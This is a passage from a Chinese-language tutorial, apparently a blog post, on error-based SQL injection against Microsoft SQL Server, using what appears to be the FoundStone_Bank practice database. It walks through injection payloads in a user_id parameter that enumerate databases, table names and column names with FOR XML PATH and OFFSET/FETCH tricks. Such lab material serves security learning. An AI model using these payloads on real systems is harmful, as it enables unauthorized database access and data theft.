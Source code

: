 ![](https://img.mi3aka.eu.org/2022/08/e68ee7bc827ff2595e0250870dc861b2.png)

![](https://img.mi3aka.eu.org/2022/08/96a22f71fe1e8eb660f0a496f581e07a.png)

`select name from master..sysdatabases for xml path`

![](https://img.mi3aka.eu.org/2022/08/69efb33a302f8e699309731c413dd161.png)

但要注意,报错回显的长度是存在限制的,长度过长会提示将截断字符串或二进制数据

`user_id=1 and (select name from master..sysdatabases where dbid < 2 for xml path)=1;`

`user_id=1 and (select name from master..sysdatabases where dbid < 5 and dbid > 2 for xml path)=1;`

8. 获取表名

`user_id=1 and (select top 1 name from sysobjects where xtype='u')=1;`

![](https://img.mi3aka.eu.org/2022/08/adc632ed8ad9807211e7c84b20b1252f.png)

>利用ORDER BY获取所有表名(版本>=2012)

[https://docs.microsoft.com/en-us/previous-versions/sql/sql-server-2012/ms188385(v=sql.110)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions/sql/sql-server-2012/ms188385(v=sql.110)?redirectedfrom=MSDN)

```
use FoundStone_Bank;
select name from sysobjects where xtype='u';
select name from sysobjects where xtype='u' order by 1 offset 0 rows FETCH NEXT 5 ROWS ONLY;
select name from sysobjects where xtype='u' order by 1 offset 5 rows FETCH NEXT 5 ROWS ONLY;
```

![](https://img.mi3aka.eu.org/2022/08/043795995d83e4a2b24895c38cfc78fc.png)

`user_id=1 and (select name from sysobjects where xtype='u' order by 1 offset 0 rows FETCH NEXT 5 ROWS ONLY for xml path)=1;`

![](https://img.mi3aka.eu.org/2022/08/e231c83ef2b4bc34b8a765f3f835fbf8.png)

9. 获取列名

>在查询表名时除了name列外还有一个id列,用于进行列名的查询

```
use FoundStone_Bank;
select id,name from sysobjects where xtype='u';
select top 1 name from syscolumns where id=565577053;
```

![](https://img.mi3aka.eu.org/2022/08/785c4547bb19804e81d9c9a449d2bc8a.png)

```
use FoundStone_Bank;
select name from syscolumns where id=(select id from sysobjects where xtype='u' and name='fsb_accounts');
```
